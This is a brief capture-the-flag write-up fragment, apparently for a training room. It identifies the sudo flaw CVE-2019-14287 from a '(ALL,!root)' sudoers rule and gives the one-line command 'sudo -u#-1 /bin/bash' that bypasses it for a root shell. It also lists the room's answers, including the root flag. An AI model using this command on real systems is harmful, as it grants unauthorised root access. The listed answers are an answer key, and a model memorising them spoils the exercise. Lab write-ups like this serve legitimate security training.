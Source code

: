 

**(ALL,!root)  /bin/bash**

search  for  it  at  google

![](https://i.imgur.com/sHo8tDh.png)



![](https://i.imgur.com/STXakXE.png)



**Q1**:  CVE

**A1**:  CVE-2019-14287



![](https://i.imgur.com/LjALBb1.png)



So  we  will  use  this  command  to  get  a  root  shell

```bash

sudo  -u#-1  /bin/bash

```

![](https://i.imgur.com/H2HgnT1.png)



![](https://i.imgur.com/7eezbTU.png)





**Q2**:  root  flag

**A2**:  b53a02f55b57d4439e3341834d70c062



**Q3**  :  name  of  agent  R

**A3**:  DesKel



![](https://i.imgur.com/72R2tcs.png)

